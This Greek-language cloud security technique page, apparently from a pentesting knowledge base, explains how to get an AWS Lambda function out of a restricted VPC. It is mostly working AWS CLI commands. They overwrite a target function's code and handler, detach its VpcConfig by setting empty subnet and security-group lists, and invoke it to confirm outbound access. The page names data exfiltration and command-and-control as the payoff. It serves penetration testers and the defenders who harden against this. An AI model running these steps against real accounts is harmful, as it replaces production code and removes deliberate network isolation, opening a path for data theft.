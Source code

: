 # AWS Lambda – VPC Egress Bypass by Detaching VpcConfig

Αναγκάστε μια Lambda function να βγει από ένα περιορισμένο VPC ενημερώνοντας τη διαμόρφωσή της με κενό VpcConfig (SubnetIds=[], SecurityGroupIds=[]). Η function θα τρέχει τότε στο Lambda-managed networking plane, επανακτώντας την εξερχόμενη πρόσβαση στο διαδίκτυο και παρακάμπτοντας τους egress ελέγχους που επιβάλλονται από ιδιωτικά VPC subnets χωρίς NAT.

## Κατάχρηση

- Προαπαιτούμενα: δικαίωμα lambda:UpdateFunctionConfiguration στην στοχευόμενη function (και lambda:InvokeFunction για επαλήθευση), καθώς και δικαιώματα για ενημέρωση κώδικα/handler αν τα αλλάξετε.
- Υποθέσεις: Η function είναι αυτήν τη στιγμή διαμορφωμένη με VpcConfig που δείχνει σε ιδιωτικά subnets χωρίς NAT (οπότε η εξερχόμενη πρόσβαση στο διαδίκτυο είναι αποκλεισμένη).
- Περιοχή: us-east-1

### Βήματα

0) Ετοιμάστε έναν ελάχιστο handler που αποδεικνύει ότι η εξερχόμενη HTTP λειτουργεί

cat > net.py <<'PY'
import urllib.request, json

def lambda_handler(event, context):
try:
ip = urllib.request.urlopen('https://checkip.amazonaws.com', timeout=3).read().decode().strip()
return {"egress": True, "ip": ip}
except Exception as e:
return {"egress": False, "err": str(e)}
PY
zip net.zip net.py
aws lambda update-function-code --function-name $TARGET_FN --zip-file fileb://net.zip --region $REGION || true
aws lambda update-function-configuration --function-name $TARGET_FN --handler net.lambda_handler --region $REGION || true

1) Καταγράψτε την τρέχουσα VPC config (για επαναφορά αργότερα αν χρειαστεί)

aws lambda get-function-configuration --function-name $TARGET_FN --query 'VpcConfig' --region $REGION > /tmp/orig-vpc.json
cat /tmp/orig-vpc.json

2) Αποσυνδέστε το VPC θέτοντας κενές λίστες

aws lambda update-function-configuration \
--function-name $TARGET_FN \
--vpc-config SubnetIds=[],SecurityGroupIds=[] \
--region $REGION
until [ "$(aws lambda get-function-configuration --function-name $TARGET_FN --query LastUpdateStatus --output text --region $REGION)" = "Successful" ]; do sleep 2; done

3) Κάντε invoke και επαληθεύστε την εξερχόμενη πρόσβαση

aws lambda invoke --function-name $TARGET_FN /tmp/net-out.json --region $REGION >/dev/null
cat /tmp/net-out.json

(Optional) Επαναφέρετε την αρχική VPC config

if jq -e '.SubnetIds | length > 0' /tmp/orig-vpc.json >/dev/null; then
SUBS=$(jq -r '.SubnetIds | join(",")' /tmp/orig-vpc.json); SGS=$(jq -r '.SecurityGroupIds | join(",")' /tmp/orig-vpc.json)
aws lambda update-function-configuration --function-name $TARGET_FN --vpc-config SubnetIds=[$SUBS],SecurityGroupIds=[$SGS] --region $REGION
fi

### Επιπτώσεις
- Επαναφέρει την ανεμπόδιστη εξερχόμενη πρόσβαση στο διαδίκτυο από τη function, επιτρέποντας εξαγωγή δεδομένων (data exfiltration) ή C2 από workloads που είχαν σκόπιμα απομονωθεί σε ιδιωτικά subnets χωρίς NAT.

### Παράδειγμα εξόδου (μετά την αποσύνδεση του VpcConfig)

{"egress": true, "ip": "34.x.x.x"}

### Καθαρισμός
- Αν δημιουργήσατε προσωρινές αλλαγές σε κώδικα/handler, επαναφέρετέ τες.
- Προαιρετικά επαναφέρετε το αρχικό VpcConfig που αποθηκεύτηκε στο /tmp/orig-vpc.json όπως φαίνεται παραπάνω.
